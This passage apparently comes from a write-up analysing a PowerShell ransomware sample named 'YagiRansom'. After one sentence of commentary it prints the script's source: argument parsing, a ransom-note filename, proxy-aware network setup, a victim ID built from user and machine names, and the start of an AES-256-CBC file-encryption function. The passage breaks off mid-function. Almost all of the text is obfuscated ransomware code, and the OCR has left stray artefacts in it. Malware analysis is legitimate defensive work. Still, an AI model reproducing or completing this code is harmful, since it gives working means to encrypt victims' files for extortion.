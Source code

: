 for some lucky reason, I actually spotted the Ps1 as the first time I string it.

```ps1 h!
$ProgressPreference = "SilentlyContinue"
$ErrorActionPreference = "SilentlyContinue"
$OSVersion = [Environment]::OSVersion.Platform
if ($OSVersion -like "*Win*") {
$Host.UI.RawUI.WindowTitle = "YagiRansom" 
$Host.UI.RawUI.BackgroundColor = "Black"
$Host.UI.RawUI.ForegroundColor = "White" }
# Variables
$Mode = $args[0]
$Directory = $args[1]
$WiETm = $args[3]
$7CiB = $args[3]
$UFX = $args[5]
$ENyR = $args[6]
$DCe = $null
# Errors
if ($args[0] -like "-h*") { break }
if ($args[0] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[1] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[2] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
if ($args[3] -eq $null) { Write-Host "[!] Not enough/Wrong parameters!" -ForegroundColor Red ; Write-Host ; break }
# Proxy Aware
[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy()
[System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
$AllProtocols = [System.Net.SecurityProtocolType]"Ssl3,Tls,Tls11,Tls12" ; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols
# Functions
$OgE = ([Environment]::MachineName).ToLower() ; $zVSza = ([Environment]::UserName).ToLower() ; $I26 = "yaginote.txt"
$7VEq = Get-Date -Format "HH:mm - dd/MM/yy" ; $Uz19o = $7VEq.replace(":","").replace(" ","").replace("-","").replace("/","")+$zVSza+$OgE
if ($OSVersion -like "*Win*") { $domain = (([Environment]::UserDomainName).ToLower()+"\") ; $slash = "\" } else { $domain = $null ; $slash = "/" } 
$DirectoryTarget = $Directory.Split($slash)[-1] ; if (!$DirectoryTarget) { $DirectoryTarget = $Directory.Path.Split($slash)[-1] }
function Invoke-AESEncryption {
   [CmdletBinding()]
   [OutputType([string])]
   Param(
       [Parameter(Mandatory = $true)]
       [String]$Key,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptText")]
       [String]$Text,
       [Parameter(Mandatory = $true, ParameterSetName = "CryptFile")]
       [String]$Path)
   Begin {
      $m95I = New-Object System.Security.Cryptography.SHA256Managed
      $n9ibn = New-Object System.Security.Cryptography.AesManaged
      $n9ibn.Mode = [System.Security.Cryptography.CipherMode]::CBC
      $n9ibn.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
      $n9ibn.BlockSize = 128
      $n9ibn.KeySize = 256 }
   Process {
      $n9ibn.Key = $m95I.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($Key))
      if ($Text) {$plainBytes = [System.Text.Encoding]::UTF8.GetBytes($Text)}
      if ($Path) {
```